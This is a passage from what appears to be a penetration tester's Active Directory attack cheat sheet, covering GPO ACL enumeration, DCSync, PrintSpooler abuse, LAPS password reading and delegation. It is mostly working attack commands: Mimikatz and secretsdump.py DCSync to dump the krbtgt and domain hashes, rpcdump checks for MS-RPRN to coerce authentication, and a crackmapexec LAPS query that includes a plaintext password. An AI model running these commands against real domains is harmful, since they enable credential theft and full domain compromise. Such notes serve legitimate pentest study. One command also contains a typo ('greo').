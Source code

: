 ```powershell
#Close Session

Remove-PSSession -Session $Session
```
{% endcode %}

#### GPO Enumeration:

{% code overflow="wrap" %}
```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "domain\username"} #PowerView
```
{% endcode %}

#### DCSync:

{% code overflow="wrap" %}
```bash
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}
#PowerView Enumeration

Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
#Local Exploitation

secretsdump.py -just-dc <user>:<password>@<ipaddress>
#remote Exploitation
```
{% endcode %}

#### PrintSpooler services:

```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
#Get-SpoolStatus.ps1 usage

rpcdump.py domain/user:password@server.com | greo MS-RPRN
#dump hashes and stuff
```

In certain cases, we are able to use unconstrained delegation with this by requesting tickets to make the printer authenticate against this computer. The TGT of the computer account of the printer will be saved in the memory of the computer with unconstrained delegation.

#### ReadLAPSPassword:

```bash
crackmapexec ldap 10.129.133.138 -u JDGodd -p 'JDg0dd1s@d0p3cr3@t0r' --module laps
```

AzureAD Connect Abuse: https://blog.xpnsec.com/azuread-connect-for-redteam/

Head to this blog and use the PoC script.

**Delegation** Delegation in short, is giving others the authority or privilege to execute actions on the behalf of another user. There are 3 types of Delegation:

